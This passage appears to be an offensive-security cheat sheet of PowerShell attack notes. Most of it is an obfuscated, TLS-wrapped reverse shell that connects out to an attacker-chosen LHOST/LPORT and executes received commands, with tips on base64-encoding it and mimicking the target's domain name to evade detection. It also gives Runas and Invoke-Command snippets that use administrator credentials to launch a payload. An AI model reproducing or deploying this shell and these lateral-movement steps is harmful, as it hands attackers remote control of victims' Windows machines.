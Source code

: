 - Base64 the above:
	- `iconv -f ASCII -t UTF-16LE powershellrev.txt | base64 | tr -d "\n"`

- Oneliner to send:
	- `powershell -enc <encoded shell>`

- Obfuscated reverse shell - Must use with Socat encrypted shell listed in "Web Resources" section
```PowerShell
$gnlSlSXDZ = & ([string]::join('', ( ($(0+0-0-0-0-78+78+78),$(101+101+0-0-0-0-0+0-101),($(119)),$(0+0-0-0-0+45),$($(79)),$(((98))),($(106)),$(101+101+0-0-0-0-0+0-101),$(99+99+0-99),$($(116))) |ForEach-Object{$_<##>}|%{ ( [char][int] $_<#ZdQB8miMexFGoshJ4qKRp1#>)})) |ForEach-Object{<##>$($_)}| % {<#HWEG3yFVCbNOvfYute5#>$_<#o#>}) ([string]::join('', ( ($(83+83+0+0+0-0-83),$(((121))),((115)),$($(116)),$(101+101+0-0-0-0-0+0-101),(($(109))),(46),$(0+0-0-0-0-78+78+78),$(101+101+0-0-0-0-0+0-101),$($(116)),(46),$(83+83+0+0+0-0-83),$(0+0+0+0+111),$(99+99+0-99),(107),$(101+101+0-0-0-0-0+0-101),$($(116)),((115)),(46),(84),($(67)),$(80),($(67)),$(0-0+0-108+108+108),$(0+105),$(101+101+0-0-0-0-0+0-101),(110),$($(116))) |ForEach-Object{$($_)<##>}|%{ ( [char][int] <##>$($_)<##>)})) |ForEach-Object{<#FLut3kIYDMAyO9a2hEH0zQJ4w#>$_<#WI8r#>}| % {<#OjUEN8nkxf#>$($_)})("J5q0aMgvL.xAeq3T8MEcL6sRaXUrOZ.SHUZv12CgW0es7xPkJmtFo.CbYjgiDaIe7GWdPs".replace('CbYjgiDaIe7GWdPs',DDDDDDDD).replace('SHUZv12CgW0es7xPkJmtFo',CCCCCCCC).replace('J5q0aMgvL',AAAAAAAA).replace('xAeq3T8MEcL6sRaXUrOZ',BBBBBBBB),$(EEEEEEEE));$fU4QP = $gnlSlSXDZ.GetStream();$h1okj42 = New-Object System.Net.Security.SslStream($fU4QP,$false,({$True} -as [Net.Security.RemoteCertificateValidationCallback]));$h1okj42.AuthenticateAsClient('FFFFFFFF', $null, "Tls12", $false);$nf1083fj = new-object System.IO.StreamWriter($h1okj42);$nf1083fj.Write('PS ' + (pwd).Path + '> ');$nf1083fj.flush();[byte[]]$h8r109 = 0..65535|%{0};while(($nf839nf = $h1okj42.Read($h8r109, 0, $h8r109.Length)) -ne 0){$nr81of = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($h8r109,0, $nf839nf);$ngrog49 = (iex $nr81of | Out-String ) 2>&1;$nir1048 = $ngrog49 + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($nir1048);$h1okj42.Write($sendbyte,0,$sendbyte.Length);$h1okj42.Flush()};
	```
		 - AAAAAAAA == 1st octet of LHOST
		 - BBBBBBBB == 2nd octet of LHOST
		 - CCCCCCCC == 3rd octet of LHOST
		 - DDDDDDDD == 4th octet of LHOST
		 - EEEEEEEE == LPORT
		 - FFFFFFFF == Domain to auth as (doesn't really matter, use something that looks like theirs)
- Check for CLM
	- `$ExecutionContext.SessionState.LanguageMode`
- Get NETBIOS Domain Name
	- `powerpick (gwmi Win32_NTDomain).DomainName`
- Runas
	- `$user = 'MINION\Administrator';`
	- `$password = '1234test';`
	- `$secpass = ConvertTo-SecureString $password -AsPlainText -Force;`
	- `$credential = New-Object System.Management.Automation.PSCredential $user, $secpass;`
	- `Invoke-Command -Computername localhost -Credential $credential -ScriptBlock { cd C:\Users\Administrator\Desktop; C:\Users\Administrator\Desktop\root.exe }`
	- Similar:
```PowerShell
$pw = ConvertTo-SecureString -AsPlainText -Force -String "Admin1234!"
$cred = New-Object -typename System.Management.Automation.PSCredential -argumentlist "contoso\Administrator",$pw
$session = New-PSSession -ComputerName dc01 -Credential $cred
Invoke-Command -Session $session -ScriptBlock {hostname}
Enter-PSSession -Session $session
```
